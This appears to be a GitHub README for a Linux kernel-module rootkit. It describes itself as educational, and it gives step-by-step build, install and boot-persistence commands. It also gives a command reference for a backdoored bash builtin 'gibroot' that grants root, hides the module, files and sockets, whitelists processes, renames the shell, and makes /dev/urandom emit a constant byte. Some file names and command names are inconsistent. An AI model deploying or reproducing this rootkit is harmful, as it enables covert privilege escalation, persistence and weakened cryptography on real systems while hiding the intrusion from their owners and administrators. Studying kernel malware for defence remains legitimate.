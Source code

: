 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide [file(s)]
```
to unhide files, use
```
gibroot show [file(s)]
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd [TYPE] [NAME/ID]
```
to remove an entry from the whitelist, use
```
gibroot wrem [TYPE] [NAME/ID]
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID
<br />

to change the name of your bash process to something else, use
```
gibroot newname [NAME]
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hmod [TYPE] [STYPE] [PORT]
```
to unhide open sockets, use
```
gibroot smod [TYPE] [STYPE] [PORT]
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET
